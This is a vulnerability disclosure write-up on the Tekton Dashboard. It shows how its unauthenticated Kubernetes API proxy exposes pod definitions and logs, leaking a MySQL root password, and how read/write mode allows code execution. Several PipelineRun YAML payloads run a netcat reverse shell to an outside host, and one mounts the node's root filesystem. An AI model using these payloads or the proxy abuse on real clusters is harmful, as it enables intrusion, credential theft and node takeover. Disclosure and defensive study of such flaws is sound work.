







This is the story of how I found two vulnerabilities in the Tekton CI/CD Dashboard component that allow remote code execution and a potential node takeover if deployed in read/write mode as well as pre-authenticated access to the Kubernetes API server in all modes.
Both vulnerabilities were treated as intended and are thus still exploitable. The documentation was changed and the default mode is now read-only instead of read/write.
It started when I stumbled upon an unusual finding during an assessment. The scanning of our internal attack surface management solution reported either an internet-exposed Kubernetes API server, which is not too uncommon, or an exposed kubelet API. The latter hadn’t been observed in our client’s scope before, prompting me to investigate further.
Kubelet
The kubelet is a binary running on every node that’s part of a Kubernetes cluster. It interacts with the container runtime to create the actual containers. These are either based on pods requested by the Kubernetes API or the control plane components themselves, implemented as static containers.
The Kubernetes API pod, for example, is defined in /etc/kubernetes/manifests/kube-apiserver.yaml:
apiVersion: v1
kind: Pod
metadata:
annotations:
kubeadm.kubernetes.io/kube-apiserver.advertise-address.endpoint: 192.168.49.2:8443
creationTimestamp: null
labels:
component: kube-apiserver
tier: control-plane
name: kube-apiserver
namespace: kube-system
spec:
containers:
- command:
- kube-apiserver
- --advertise-address=192.168.49.2
- --allow-privileged=true
- --authorization-mode=Node,RBAC
...
By default, the kubelet starts with the --anonymous-auth parameter set to true and --authorization-mode set to AlwaysAllow. Consequently, unauthenticated network access to the kubelet’s own API grants full control over the containers. Exploitation of this configuration was previously described in this blog post.
Unfortunately, accessing the reported endpoint at /pods returned a 404 error, indicating that it was not a kubelet. It could still be a Kubernetes API server, but that would require authentication. A quick test revealed the following:
curl http://tekton-dashboard:9097/api/v1/secrets
{
"kind": "Status",
"apiVersion": "v1",
"metadata": {},
"status": "Failure",
"message": "secrets is forbidden: User \"system:serviceaccount:tekton-pipelines:tekton-dashboard\" cannot list resource \"secrets\" in API group \"\" at the cluster scope",
"reason": "Forbidden",
"details": {
"kind": "secrets"
},
"code": 403
}
This response strongly resembles a Kubernetes API reply and, more importantly, it appears to be authenticated as the system:serviceaccount:tekton-pipelines:tekton-dashboard user. Apparently we are dealing with some pre-authenticated proxying behavior.
Proxying with Tekton
As indicated by the name of the service account, we were dealing with Tekton and its dashboard component:
Tekton is a powerful and flexible open-source framework for creating CI/CD systems, allowing developers to build, test, and deploy across cloud providers and on-premise systems.
Rather than immediately reconsidering the attack surface, I decided to investigate the unusual proxying behavior further. I checked the documentation and found that the installation is just a Kubernetes configuration YAML file:
kubectl apply --filename https://storage.googleapis.com/tekton-releases/dashboard/latest/release.yaml
This file contains a definition of a tekton-dashboard service account and its role bindings. While I didn’t review the roles exhaustively, I quickly noticed read access to pods and pods/logs. This presented a potential quick win because it meant access to container stdout and pod definitions, both of which could contain sensitive information.
Using the pre-authenticated proxying behavior it is indeed possible to view pod definitions using:

This artificial example contained a hard-coded secret value, obviously not recommended but nonetheless it happens. The same MySQL image used in this scenario could also be started with the MYSQL_RANDOM_ROOT_PASSWORD environment variable set. This generates a random password and prints it to stdout, where it is still publicly accessible:
$ curl -s http://tekton-dashboard:9097/api/v1/namespaces/default/pods/db/log
...
2024-09-07 12:10:11+00:00 [Note] [Entrypoint]: Temporary server started.
'/var/lib/mysql/mysql.sock' -> '/var/run/mysqld/mysqld.sock'
2024-09-07 12:10:13+00:00 [Note] [Entrypoint]: GENERATED ROOT PASSWORD: dJZurxd0BGJIPcYPUphZ3QcnWd9IbdxG
At this point, I had gained access to several credentials and informed the client accordingly.
To see what else we can do with that endpoint let’s take a look at the source code. Initially, client-go’s InClusterConfig() is used to get a config containing the authentication details of the service account.
func main() {
...
var cfg *rest.Config
var err error
if cfg, err = rest.InClusterConfig();
err != nil {
logging.Log.Errorf("Error building kubeconfig: %s", err.Error())
}
...
server, err := router.Register(resource, cfg)
...
l, err := server.Listen("", *portNumber)
...
logging.Log.Fatal(server.ServeOnListener(l))
}
...
That config is then used in the Register() function to create a proxyHandler to serve endpoints with paths starting with either /api/ or /apis/.
func Register(r endpoints.Resource, cfg *rest.Config) (*Server, error) {
logging.Log.Info("Adding Kube API")
apiProxyPrefix := "/api/"
apisProxyPrefix := "/apis/"
proxyHandler, err := NewProxyHandler(cfg, 30*time.Second)
if err != nil {
return nil, err
}
mux := http.NewServeMux()
mux.Handle(apiProxyPrefix, proxyHandler)
mux.Handle(apisProxyPrefix, proxyHandler)
The proxyHandler is created via NewProxyHandler(). This looks familiar, as it is almost identical to the code used by kubectl itself when proxying connections to the Kubernetes API (kubectl proxy).
func NewProxyHandler(cfg *rest.Config, keepalive time.Duration) (http.Handler, error) {
host := cfg.Host
if !strings.HasSuffix(host, "/") {
host += "/"
}
target, err := url.Parse(host)
if err != nil {
return nil, err
}
responder := &responder{}
transport, err := rest.TransportFor(cfg)
if err != nil {
return nil, err
}
upgradeTransport, err := makeUpgradeTransport(cfg, keepalive)
if err != nil {
return nil, err
}
proxy := proxy.NewUpgradeAwareHandler(target, transport, false, false, responder)
proxy.UpgradeTransport = upgradeTransport
proxy.UseRequestLocation = true
proxy.UseLocationHost = true
proxyServer := protectWebSocket(proxy) <--
return proxyServer, nil
}
A noticeable change is the addition of protectWebSocket(proxy), this is a protection against cross-origin websocket hijacking, which is irrelevant as we are not constrained by a browser and therefore able to set arbitrary values for the origin header.
Additionally, kubectl's NewProxyHandler() contained the following part that could filter requests based on their host, path or HTTP method. It is however missing for the Tekton Dashboard.
if filter != nil {
proxyServer = filter.HandlerFor(proxyServer)
}
Next, the ServeOnListener() function is called on the router.Server returned by Register() which appears to add a CSRF protection:
func (s *Server) ServeOnListener(l net.Listener) error {
CSRF := csrf.Protect()
server := http.Server{
Handler: CSRF(s.handler),
ReadHeaderTimeout: 30 * time.Second,
}
return server.Serve(l)
}
By applying CSRF() to the original http.Handler inside router.Server, a new csrf struct is returned which implements the Handler interface to wrap ServeHTTP(). This will in turn be called by http.Server.Serve(l). Then, for HTTP methods deemed unsafe like POST, a hard-coded HTTP header with the name Tekton-Client is expected:
func (cs *csrf) ServeHTTP(w http.ResponseWriter, r *http.Request) {
if _, ok := safeMethods[r.Method]; !ok {
csrfHeader := r.Header.Get(cs.opts.HeaderName)
if csrfHeader == "" {
cs.opts.ErrorHandler.ServeHTTP(w, r)
return
}
}
cs.h.ServeHTTP(w, r)
}
The value of said header does apparently not matter. To be sure we can just set it for all requests regardless of the HTTP method being used. Other than that there were no restrictions.
To summarize, if someone adhered to best practices and restricted network access to the Kubernetes API server but has a Tekton dashboard exposed to the internet, we can use its proxy to gain almost unrestricted access to the API server again. Additionally, we can either bring our “own” credentials or act with whatever privileges the tekton-dashboard service account has.
For convenience, I patched kubectl to add the Tekton-Client header and to allow authenticating when using unencrypted HTTP. Now we can either use the privileges of the tekton-dashboard service account:

Or use credentials obtained in another way, for example, service account tokens read via a file inclusion vulnerability in a web application:

RCE
Initially, when I visited the root URL I noticed the following import function:


If we click through and fill in some dummy data we can generate the following request:
POST /apis/tekton.dev/v1/namespaces/tekton-dashboard/pipelineruns/ HTTP/1.1
Host: 127.0.0.1:9097
Content-Type: application/json
Tekton-Client: tektoncd/dashboard
...
Judging by its request line, this request likely creates a PipelineRun resource so let’s explore what that could mean.
Because the path starts with /apis/ we know we are dealing with a named API group. As tekton.dev is not a built-in group we are dealing with either an aggregated API server or, more commonly a custom resource definition (CRD). We can find the CRD in the pipeline repo:
apiVersion: apiextensions.k8s.io/v1
kind: CustomResourceDefinition
metadata:
name: pipelineruns.tekton.dev
labels:
app.kubernetes.io/instance: default
app.kubernetes.io/part-of: tekton-pipelines
pipeline.tekton.dev/release: "devel"
version: "devel"
spec:
group: tekton.dev
preserveUnknownFields: false
versions:
- name: v1beta1
served: true
storage: false
schema:
openAPIV3Schema:
type: object
...
Custom resource creation requests are validated according to the OpenAPI v3 schema included in their definition. In this case however it does not provide further insights as it only expects a valid JSON object. Luckily, the repository contained some documentation indicating that every CRD has a matching go struct at pkg/apis/pipeline/v1/:
...
// PipelineRunSpec defines the desired state of PipelineRun
type PipelineRunSpec struct {
// +optional
PipelineRef *PipelineRef `json:"pipelineRef,omitempty"`
// Specifying PipelineSpec can be disabled by setting
// `disable-inline-spec` feature flag..
// +optional
PipelineSpec *PipelineSpec `json:"pipelineSpec,omitempty"`
// Params is a list of parameter names and values.
// +listType=atomic
Params Params `json:"params,omitempty"`
// Used for cancelling a pipelinerun (and maybe more later on)
// +optional
Status PipelineRunSpecStatus `json:"status,omitempty"`
// Time after which the Pipeline times out.
// Currently three keys are accepted in the map
// pipeline, tasks and finally
// with Timeouts.pipeline >= Timeouts.tasks + Timeouts.finally
// +optional
Timeouts *TimeoutFields `json:"timeouts,omitempty"`
// TaskRunTemplate represent template of taskrun
// +optional
TaskRunTemplate PipelineTaskRunTemplate `json:"taskRunTemplate,omitempty"`
// Workspaces holds a set of workspace bindings that must match names
// with those declared in the pipeline.
// +optional
// +listType=atomic
Workspaces []WorkspaceBinding `json:"workspaces,omitempty"`
// TaskRunSpecs holds a set of runtime specs
// +optional
// +listType=atomic
TaskRunSpecs []PipelineTaskRunSpec `json:"taskRunSpecs,omitempty"`
}
...
A controller in Kubernetes monitors resources it is interested in and it “reconciles” in response to relevant events. That means it changes the clusters state to match the desired state. In this example that could mean creating a specific pod whenever a new PipelineRun is requested. Another controller, the kube-scheduler, notices the requirement of a new pod and goes on to schedule it to a node.
Therefore, to understand the PipelineRun resource, we have to check its reconciler implementation at pkg/reconciler/pipelinerun/pipelinerun.go.
Before diving into the code I wanted to take a break and play around with the functionality first. While doing so I noticed the “Edit and run” button of my existing PipelineRun. It presented a nicely readable and editable YAML file containing the definition of my PipelineRun resource:

Obviously the script key spiked my interest and it was indeed possible to leverage it to execute arbitrary commands so I went for a shell with:
script: >
#!/usr/bin/env sh
busybox nc 192.168.58.1 8000 -e /bin/sh
RCE is nice, but I thought this looks a lot like a normal pod definition, can it do anything malicious like mounting the node’s file system?
I tried to get a minimal PipelineRun by repeatedly removing potentially unimportant lines until it breaks, which finally led me to:
apiVersion: tekton.dev/v1
kind: PipelineRun
metadata:
generateName: import-resources-1727367416567-2nr95-r-
namespace: tekton-dashboard
spec:
pipelineSpec:
tasks:
- name: fetch-repo
taskSpec:
metadata: {}
spec: null
steps:
- computeResources: {}
image: busybox:latest
name: clone
script: |
#!/usr/bin/env sh
busybox nc 192.168.49.1 8000 -e /bin/sh
taskRunTemplate:
serviceAccountName: default
Pretending this is just a pod we could mount the host’s file system with:
apiVersion: tekton.dev/v1
kind: PipelineRun
metadata:
generateName: import-resources-1727367416567-2nr95-r-
namespace: tekton-dashboard
spec:
pipelineSpec:
tasks:
- name: fetch-repo
taskSpec:
metadata: {}
spec: null
steps:
- computeResources: {}
image: busybox:latest
name: clone
script: |
#!/usr/bin/env sh
busybox nc 192.168.49.1 8000 -e /bin/sh
volumeMounts:
- mountPath: /var/noderoot
name: noderoot
volumes:
- hostPath:
path: /
name: noderoot
taskRunTemplate:
serviceAccountName: default
And indeed it was possible to access the nodes file system, which is usually enough to compromise the whole cluster:

Interestingly, this is only possible in the tekton-dashboard namespace (and every other non-secured namespace). Both the tekton-pipelines and the tekton-pipelines-resolvers namespaces have the pod security standards profile Restricted applied:

Summary
A internet exposed Tekton dashboard allows direct access to the Kubernetes API. This access is pre-authenticated with the privileges of the tekton-dashboard service account which, regardless of the deployment mode, allows access to pod definitions and container stdout by default. It is also possible to provide your own credentials for the Kubernetes API and if the dashboard is deployed in read/write mode it enables remote code execution.
Recommendation
- Do not expose your dashboard to the internet. If needed, require prior authentication as described here.
- Deploy your dashboard in
read-onlymode. - Limit the privileges of the
tekton-dashboardservice account. - Configure pod security standards for the whole cluster.
Vendor Reaction
The issue was communicated to the Tekton security team in July 2024. They came to the conclusion that the issue lies primarily in the documentation, because the tutorial did not mention the different modes and the installation defaulted to read/write.
A GitHub security advisory was opened, the documentation improved and the default mode was changed to read-only. Other than that they referred to current cluster administration best practices.
There are no additional warnings or changes for the central pipelines repo.